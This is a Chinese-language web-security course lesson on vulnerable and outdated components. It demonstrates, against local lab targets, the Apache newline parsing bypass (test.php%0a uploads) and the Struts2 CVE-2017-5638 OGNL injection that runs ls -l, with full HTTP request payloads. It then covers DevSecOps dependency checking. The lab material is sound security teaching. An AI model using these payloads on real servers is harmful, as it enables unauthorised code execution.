







# 31 | 易受攻击和过时的组件：DevSecOps与依赖项安全检查

你好，我是王昊天。

不知道你是否听说过木桶效应？我们可以看下图这个木桶，假设它的底面为一整块木板，桶身由 15 块木板组成。现在，我们需要用这个木桶装尽可能多的水，显而易见，它能装水的数量仅与木板中高度最低的相关。



其实对于 Web 应用的安全性来说，木桶效应同样有效。假设我们的 Web 应用运用了多个组件，例如 Struts、Apache，那么它的安全强度也是由这些组件中最脆弱的一个所决定。所以在我们开发一个 Web 应用时，需要确保每一个组件都不存在已知的安全问题。

那么这节课，就让我们一起学习下 Web 应用中组件的安全问题吧。

## 易受攻击和过时的组件

首先，我们需要了解 Web 应用中具有哪些组件。

通常来讲，Web 应用一般都包含三个基础组件，Web 应用服务组件、Web 数据库组件以及Web 客户端浏览器组件。其中，我们很容易知道 Web 应用服务器是用于运行 Web 应用的，Web 数据库服务器是用于给 Web 应用提供需要的数据，而 Web 客户端浏览器则可以用来展示 Web 应用返回的内容，同时决定用户与 Web 应用的交互方式。

其实上述三个基础组件本身，也是由多个组件所构成的，例如 Web 应用服务器可能会包含Struts、Apache 应用等多个组件，而 Struts、Apache 内部也会包含很多组件。所以组件是一个很灵活的说法，你可以将它简单地理解为是一个独立功能单元。

随着 Web 应用的功能越来越复杂，应用中组件的个数也在不断提升，这会对 Web 应用的安全造成一定的威胁，因为我们难以确保每个组件都是安全的。这是一个棘手的问题，它在OWASP 2021 中荣获第六位，下面让我们具体地学习一些典型的易受攻击和过时的组件吧。

### Apache 换行解析漏洞

在之前的学习中，我们知道了 Apache 是一款使用很广泛的 Web 应用组件，尽管它的功能非常强大，但是在过去的版本中，它也存在换行解析漏洞，所以我们如果用这款工具时，要注意它的版本信息。

这个换行解析漏洞影响的版本为 Apache 2.4.10 - 2.4.29，接下来让我们通过示例来具体的学习 Apache 换行解析漏洞。



这是一个文件上传靶场，我们需要上传一个 test.php 文件，点击提交后，我们可以看到页面返回了 bad file。发现被拦截之后，我查看靶场源码，看到了下面的过滤代码：

```
if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'])) {
       exit('bad file');
   }
```

它是基于黑名单的过滤方式，所以我们无法直接上传 php 相关后缀的文件名。但是，我们可以尝试利用换行解析漏洞去进行测试。于是，我们开启 BurpSuite，拦截文件上传的报文如下：

```
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 298
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5b4HReBGGEbOB2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/we
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
------WebKitFormBoundaryD5b4HReBGGEbOB2B
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/php
<?php phpinfo();?>
------WebKitFormBoundaryD5b4HReBGGEbOB2B
Content-Disposition: form-data; name="name"
test.php
------WebKitFormBoundaryD5b4HReBGGEbOB2B--
```

在倒数第二行 test.php 的最后加上一个空格符，然后点击 Hex 格式，找到我们刚刚输入的空格，将它改为 0a。



然后将这个修改后的报文发送出去，响应中不再提示 bad file。然后我们访问 test.php%0a 路径，获得响应如下：



可以看到，我们上传文件 test.php 成功，并且成功输出了其中的 PHP 语句，我们看到Apache 的版本信息为 2.4.10，确实是存在换行解析漏洞的版本。

回顾我们的攻击过程，我们将文件的后缀改为了 .php%0a，这个后缀是可以通过检测的，因此 Web 应用会允许 test.php%0a 的上传。到这里都是合理的，可是问题就发生在 Apache 在解析这个文件时，会将它解析为一个 PHP 文件，并调用 PHP 解释器来执行它。

事实上，%0a 代表换行符。Apache 是使用 .php$ 的正则匹配方式来检测 php 后缀的文件，而 $ 是匹配字符串中结尾的位置，且如果存在换行符，则匹配换行符为结尾。所以，在上述示例中，我们利用了换行符 %0a 与 $ 匹配，使得我们上传的文件 test.php%0a 被当作 PHP 文件解析。

这就是 Apache 换行解析漏洞，它的危害性还是很大的，所以我们在开发 Web 应用时，需要避免使用漏洞存在的版本。

接下来，让我们学习另一个典型的不安全组件问题，即 Struts2 远程代码执行漏洞。

### Struts2 远程代码执行漏洞

在学习这个漏洞之前，我们先来看下 Struts2 是什么。

Struts2 是一个 Java Web 应用框架，它可以帮助我们更容易地去构建一个 Web 应用。在简单地了解了 Struts2 之后，我们开始学习 Struts2 远程代码执行漏洞产生的原理。

事实上，Struts2 漏洞发生在文件上传过程中，我们知道上传和下载在 Web 应用中属于常用功能，可是 Struts2 本身并没有提供这个功能，而是选择调用模块 Jakarta 来实现文件的上传。这个 Jakarta 在处理文件上传请求时，会对异常信息进行 OGNL 表达式解析处理，这就是导致漏洞产生的核心因素。

攻击者可以访问使用 Struts2 制作的 Web 应用，并且用 BurpSuite 捕获报文，将 HTTP 请求头中的 Content-Type 改为包含 multipart/form-data 的 OGNL 恶意命令。这样 Struts2 在接收到这个请求后，由于 Content-Type 的值包含 multipart/form-data，所以认为这是一个文件上传请求，进而交给 Jakarta 进行处理。可是我们的 Content-Type 中包含了恶意的 OGNL 代码，导致 Jakarta 在处理它时会发现异常，并将异常信息交给 OGNL 表达式解析处理。这样，我们的恶意 OGNL 代码就会被执行。

这就是 Struts2 远程代码执行漏洞，该漏洞被称为 CVE-2017-5638，它的影响版本为 Struts2.3.5 - Struts 2.3.31 以及 Struts 2.5 - Struts 2.5.10。接下来，让我们通过实战，来亲自体会它的威力吧！

## 实战演练

我们进入实战环节，登录谜团（mituan.zone）并选择【易受攻击和过时的组件 CVE-2017-5638】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。



接下来我们刷新页面，用 BurpSuite 拦截请求，获取到如下报文：

```
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/we
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

下面，我们给它添加一个 Content-Type 请求头，并将包含 multipart/form-data 字符串的恶意payload 作为它的值。

```
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/we
Sec-Fetch-Site: none
Content-Type:
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_mem
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C7D2C0C8353A3D952C576487D42216E3
Connection: close
```

payload 是一段 OGNL 语句，你可能看不懂它，不用担心，这里我们只需要知道，在

```
payload 中 cmd 的值指定为 ls -l，这样就可以让 Web 应用执行 ls -l 命令，并将输出
```

进行返回。将我们精心修改后的报文发送出去，你就可以看到页面响应内容变为如下：



```
可以看到，我们注入的命令 ls -l 的结果已经返回在页面上，攻击成功。
```

到这里，你已经学习了易受攻击和过时组件会给 Web 应用造成的威胁，接下来我们来学习如何抵御组件不安全的问题。

## 防御方式

为了保证我们的 Web 应用不会因为组件问题，导致威胁的存在，我们需要了解开发的 Web应用中所有的组件信息，然后对它们进行检查，判断其中是否有不安全的组件存在，如果存在就对它们进行限制或修改，解决安全隐患，同时持续关注这些组件的安全信息。

这样我们就可以尽可能地减少组件安全性问题发生的概率。不过，上述措施实施起来还是比较困难的，毕竟一个 Web 应用可能会用到很多的组件。为了解决这个问题，我们可以利用DevSecOps 来开发我们的应用。下面，我们来学习 DevSecOps 是什么以及它是如何保护Web 应用组件安全的。

### DevSecOps

想要学习 DevSecOps，我们首先要了解 DevOps 是什么。

DevOps 即有质量保证的开发与运维，它代表的是一组过程、方法与系统的统称，用于促进开发、技术运营以及质量保障部门之间的沟通、协作与调整。

在 DevOps 模式下，运维人员会在项目开发期就介入到开发过程中，了解开发人员使用的系统架构和技术路线，从而制定适当的运维方案。而开发人员也会在运维的初期参与到系统部署中，并提供系统部署的优化建议。这样不仅可以加深开发人员和运维人员的感情，还能使得彼此更了解应用的整体情况，有助于提高实施效率。

DevSecOps 相比较而言多了 Sec 三个字母，事实上，它确实就是将安全性无缝集成到DevOps 的每个阶段。它统一了开发活动、操作支持和安全检查。在 DevSecOps 中，对代码的任何更改都会触发安全检查，其中若存在易受攻击和不安全的组件，就会很快被发现及更改。



- 图片来源网络

## 总结

在这节课程中，我们学习了易受攻击和过时的组件问题。

首先，我们对组件进行了理解，知道了它其实是一个灵活的概念，我们可以将它理解为独立的功能单元。

之后，我们通过对 Struts 以及 Apache 这两个组件安全性的分析，结合实战，切身地了解了不安全的组件会给我们整个 Web 应用的安全性造成极大的威胁。

最后，我们学习了如何抵御组件安全性问题，即通过 DevSecOps 方式开发我们的 Web 应用，对所用的组件及依赖项进行及时的检测。这样，就可以很好地保护我们的 Web 应用啦！

## 思考题

你还知道哪些组件安全问题吗？以及如何防御？

欢迎在评论区中分享。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
